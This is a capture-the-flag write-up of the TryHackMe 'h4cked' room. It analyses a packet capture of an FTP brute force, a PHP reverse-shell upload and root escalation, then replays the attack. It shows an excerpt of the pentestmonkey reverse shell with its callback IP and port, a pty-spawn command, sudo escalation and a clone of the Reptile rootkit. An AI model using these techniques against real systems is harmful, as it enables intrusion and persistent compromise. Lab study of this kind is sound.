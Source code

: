 
[TryHackMe Link](https://tryhackme.com/room/h4cked){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 10"
  # Nmap 7.93 scan initiated Wed Mar  1 20:02:56 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.199.134
    Nmap scan report for 10.10.199.134
    Host is up (0.15s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 2.0.8 or later
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=3/1%OT=21%CT=1%CU=42710%PV=Y%DS=5%DC=I%G=Y%TM=63FFF5E2
    OS:%P=aarch64-unknown-linux-gnu)SEQ(SP=100%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=
    OS:A)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M5
    OS:05ST11NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B
    OS:3)ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S
    OS:+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
    OS:)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%
    OS:A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%
    OS:DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=
    OS:40%CD=S)

    Network Distance: 5 hops

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Mar  1 20:03:30 2023 -- 1 IP address (1 host up) scanned in 33.71 seconds

  ```

## <b>Task 1</b>

- [x] It seems like our machine got hacked by an anonymous threat actor. However, we are lucky to have a .pcap file from the attack. Can you determine what happened? Download the .pcap file and use Wireshark to view it. <a href="../assets/Capture.pcapng">Download the file here</a>

- [x] The attacker is trying to log into a specific service. What service is this? **`FTP`**
    
    As I traced the TCP stream, I found the following:
    ```s
    220 Hello FTP World!
    USER jenny
    331 Please specify the password.
    PASS password
    530 Login incorrect.
    USER jenny
    331 Please specify the password.
    PASS 666666
    530 Login incorrect.
    ```

- [x] There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool? **`Hydra`**
  
- [x] The attacker is trying to log on with a specific username. What is the username? **`Jenny`**
    
- [x] What is the user's password? 
    
    ```s linenums="1" hl_lines="6 8 9"
    220 Hello FTP World!
    USER jenny
    331 Please specify the password.
    PASS 111111
    530 Login incorrect.
    USER jenny
    331 Please specify the password.
    PASS [REDACTED]
    230 Login successful.
    ```

- [x] What is the current FTP working directory after the attacker logged in? **`/var/www/html`**
  
- [x] The attacker uploaded a backdoor. What is the backdoor's filename? **`shell.php`**

  ```s linenums="1" hl_lines="9 19 22"
    220 Hello FTP World!
    USER jenny
    331 Please specify the password.
    PASS [REDACTED]
    230 Login successful.
    SYST
    215 UNIX Type: L8
    PWD
    257 "/var/www/html" is the current directory
    PORT 192,168,0,147,225,49
    200 PORT command successful. Consider using PASV.
    LIST -la
    150 Here comes the directory listing.
    226 Directory send OK.
    TYPE I
    200 Switching to Binary mode.
    PORT 192,168,0,147,196,163
    200 PORT command successful. Consider using PASV.
    STOR shell.php
    150 Ok to send data.
    226 Transfer complete.
    SITE CHMOD 777 shell.php
    200 SITE CHMOD command ok.
    QUIT
    221 Goodbye.
  ```

- [x] The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL? **`http://pentestmonkey.net/tools/php-reverse-shell`**
  
  ```php linenums="1" hl_lines="14"
    <?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    .
    .
    .
    // Usage
    // -----
    // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '192.168.0.147';  // CHANGE THIS
    $port = 80;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
  ```

- [x] Which command did the attacker manually execute after getting a reverse shell? **`whoami`**
    
    ```s linenums="1" hl_lines="7"
    Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    22:26:54 up  2:21,  1 user,  load average: 0.02, 0.07, 0.08
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    jenny    tty1     -                20:06   37.00s  1.00s  0.14s -bash
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    $ ls -la
    ``` 

- [x] What is the computer's hostname? **`wir3`**
- [x] Which command did the attacker execute to spawn a new TTY shell? 
    **`python3 -c 'import pty; pty.spawn("/bin/bash")'`**
- [x] Which command was executed to gain a root shell? **`sudo su`**

    ```s linenums="1" hl_lines="1 2 16"
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@wir3:/$ su jenny
    su jenny
    Password: [REDACTED]

    jenny@wir3:/$ sudo -l
    sudo -l
    [sudo] password for jenny: [REDACTED]

    Matching Defaults entries for jenny on wir3:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User jenny may run the following commands on wir3:
        (ALL : ALL) ALL
    jenny@wir3:/$ sudo su
    sudo su
    root@wir3:/# whoami
    whoami
    root
    root@wir3:/# cd
    ```

- [x] The attacker downloaded something from GitHub. What is the name of the GitHub project? **`Reptile`**

    ```s linenums="1" hl_lines="2 3"
    cd
    root@wir3:~# git clone https://github.com/f0rb1dd3n/Reptile.git
    git clone https://github.com/f0rb1dd3n/Reptile.git
    Cloning into 'Reptile'...
    remote: Enumerating objects: 217, done..[K
    remote: Counting objects:   0% (1/217).[K
    remote: Counting objects:   1% (3/217).[K
    ```

- [x] The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called **`Rootkit`**

## <b>Task 2</b>

While using the Hydra tool to perform a brute force attack on the FTP service, I was able to discover that the password for Jenny.

<img id="image1" />

I uploaded my reverse shell replacing the one in webserver and accessed through browser. I concurrently launched a listener to intercept the incoming shell.

<img id="image2" />

By utilizing the credentials discovered in Task-1, I logged in as `Jenny` using **`su jenny`**. As Jenny possessed access to all commands in Linux, I executed **`sudo su`** to escalate my privileges to root.

<img id="image3" />

I accessed the flag.txt file located in the Reptile directory and read its contents.

<img id="image4" />

<script>

// JSON object
const data = {
    "desc": "Find out what happened by analysing a .pcap file and hack your way back into the machine",
    "ip":  "10.10.199.134",
    "ports": "21/tcp,ftp,vsftpd 2.0.8 or later;80/tcp,http,Apache httpd 2.4.29 ((Ubuntu))",
    "difficulty":"easy",
    "id": "9"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }

}

updateHTML();
</script>